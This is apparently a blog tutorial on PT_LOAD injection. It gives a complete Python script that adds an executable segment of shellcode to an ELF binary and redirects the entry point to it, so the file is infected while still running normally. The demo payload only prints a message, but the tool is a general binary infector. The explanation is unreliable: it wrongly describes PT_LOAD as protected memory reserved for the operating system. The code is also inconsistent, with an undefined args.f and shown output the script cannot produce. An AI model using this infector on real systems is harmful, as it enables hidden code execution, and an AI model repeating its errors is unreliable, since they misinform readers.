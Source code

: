 ```yaml
---
title: "PT_LOAD Injection with Python"
classes: wide
header:
  teaser: /assets/images/Binary-Exploitation/Pt_Load-Injection/logo.png
ribbon: red
description: "PT_LOAD Injection is a technique used to inject malicious code into a computer system. This is done by storing the code in..."
categories:
  - Binary Exploitation

---
```


PT_LOAD Injection is a technique used to inject malicious code into a computer system. This is done by storing the code in a special type of memory called "protected memory" or "PT_LOAD memory," which is typically reserved for the operating system and is not accessible to user programs or applications. The injected code is executed by tricking the operating system into thinking it is a legitimate part of the system.

In terms of the ELF (Executable and Linkable Format) structure, PT_LOAD Injection typically involves modifying the ELF header to include the injected code as a new PT_LOAD segment. This segment is then executed as part of the normal program execution process. By modifying the ELF header in this way, the injected code can be executed without raising any red flags or triggering security measures.

![](/assets/images/Binary-Exploitation/Pt_Load-Injection/20221215_202340_7105OS_04_5.jpg)

In Oracle Docs, PT_LOAD described like this:

> PT_LOAD
>
> Specifies a loadable segment, described by p_filesz and p_memsz. The bytes from
> the file are mapped to the beginning of the memory segment. If the segment's memory size (p_memsz) is larger than the file size (p_filesz),
> the extra
> bytes are defined to hold the value 0 and to follow the segment's
> initialized area. The file size can not be larger than the memory size.
> Loadable segment entries in the program header table appear in ascending
> order, sorted on the p_vaddr member.

Here is our injector we create a new PT_LOAD segment and patch the target file with new PT_LOAD segment. While patching the binary with our PT_LOAD segment we should add the old entrypoint to end of our malicious code. With adding old entrypoint, we will not affect the orijinal process but load our malicious code.

## Steps

1. [lief](https://lief-project.github.io/) helps us while parsing **binary** with very simple function: **lief.parse()**

    ```
        binary = lief.parse(args.f)
    ```
2. crate a payload and convert it to assembly code with pwn lib's **asm()** function, assing it to **malcode**
3. add the old entrypoint to the end of malicious code

    ```
        payload = "Everybody looks here\n"
        malcode = asm("mov esi, edx")
        malcode += asm(shellcraft.i386.write(1, payload, len(payload)))
        malcode += asm(f"""
        mov edx, esi
        push {hex(binary.header.entrypoint)}
        ret
        """)
    ```
4. create a new segment with lief's **ELF.Segment()** function and load the **malcode**

    ```
        segment           = lief.ELF.Segment()
        segment.type      = lief.ELF.SEGMENT_TYPES.LOAD
        segment.flags     = lief.ELF.SEGMENT_FLAGS.X
        segment.content   = bytearray(malcode)
        segment.alignment = 0x9876
    ```

5. add this new segment to **binary**

    ```
        binary.add(segment)
    ```

6. traverse in binary segments and find our segment and set binary's header.enrtypoint to our segment's virtual address

    ```
        for segment in binary.segments:
            if segment.type == lief.ELF.SEGMENT_TYPES.LOAD and segment.alignment == 0x9876:
                binary.header.entrypoint = segment.virtual_address
                break
    ```

Full code:

```python
import lief
from pwn import *
import argparse

def main():
    parser = argparse.ArgumentParser(description='PT_LOAD Injection PoC', conflict_handler='resolve')
    parser.add_argument('-file','--file', help="Target file", required = True)
    parser.add_argument('-out','--out', help="Output file")
    args = parser.parse_args()

    if len(sys.argv) < 2: 
        args.print_help()
        exit(0)
    try:
        binary = lief.parse(args.f)
  
        payload = "Everybody looks here\n"
        malcode = asm("mov esi, edx")
        malcode += asm(shellcraft.i386.write(1, payload, len(payload)))
        malcode += asm(f"""
        mov edx, esi
        push {hex(binary.header.entrypoint)}
        ret
        """)
  
        segment           = lief.ELF.Segment()
        segment.type      = lief.ELF.SEGMENT_TYPES.LOAD
        segment.flags     = lief.ELF.SEGMENT_FLAGS.X
        segment.content   = bytearray(malcode)
        segment.alignment = 0x9876
        binary.add(segment)
  
        for segment in binary.segments:
            if segment.type == lief.ELF.SEGMENT_TYPES.LOAD and segment.alignment == 0x9876:
                binary.header.entrypoint = segment.virtual_address
                break
  
        print("-> New EntryPoint: ", hex(binary.header.entrypoint))
  
        if args.out:
            binary.write(args.out)
        else:
            binary.write(args.file + "_edited")
    except:
        print("error occurred")
  
if __name__ == "__main__":
    main()
```





Output:

```
$   ./hello_world
Hello World!
$   python3 PT_LOAD_inj.py --file ./hello_world
Shellcode size:  53
-> New PT_LOAD segment added succesfully
$   chmod +x hello_world_edited
$   ./hello_world_edited
Everybody looks here!
Hello World!
```

Source code will be in my repo.

### Sources:

- [https://subscription.packtpub.com/book/networking-and-servers/9781782167105/4/ch04lvl1sec36/the-pt_note-to-pt_load-conversion-infection-method](https://subscription.packtpub.com/book/networking-and-servers/9781782167105/4/ch04lvl1sec36/the-pt_note-to-pt_load-conversion-infection-method) (Only image)

- [https://tmpout.sh/1/3.html](https://tmpout.sh/1/3.html)

- [https://tmpout.sh/1/10/](https://tmpout.sh/1/10/)

- [https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html](https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html)

- [http://blog.k3170makan.com/2018/09/introduction-to-elf-format-part-ii.html](http://blog.k3170makan.com/2018/09/introduction-to-elf-format-part-ii.html)
